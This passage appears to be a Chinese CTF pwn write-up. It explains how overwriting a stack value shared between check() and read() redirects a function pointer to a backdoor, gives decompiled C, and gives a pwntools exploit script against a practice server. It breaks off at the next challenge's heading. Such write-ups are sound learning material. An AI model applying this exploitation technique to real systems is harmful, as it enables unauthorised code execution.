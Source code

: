 
bug

(**a1)();这部分代码将\*a1当做函数来执行

a1来着main的v7

v7来自check的返回值

因为read函数和check函数都在main函数

他们的变量实际上在同一栈上

只要在read函数覆盖到check函数返回值的地方更改其为后门函数

就可以得到权限了

```
unsigned __int64 __fastcall bug(void (***a1)(void), const char *a2, const char *a3)
{
  char s[88]; // [rsp+20h] [rbp-60h] BYREF
  unsigned __int64 v5; // [rsp+78h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  if ( !strcmp(a2, a3) )
  {
    snprintf(s, 0x50uLL, "Password accepted: %s\n", s);
    puts(s);
    (**a1)();
  }
  else
  {
    puts("Nope!");
  }
  return __readfsqword(0x28u) ^ v5;
}
```

exp

```
from pwn import *
p = remote('node4.buuoj.cn',25653)                          
payload = '2jctf_pa5sw0rd'.ljust(0x48, '\x00') + p64(0x400e88)
p.sendlineafter('username: ', 'admin')
p.sendafter('password: ', payload)
p.interactive()


```

# 7月14日

### 1.roarctf_2019_easy_pwn（off-by-one）

main
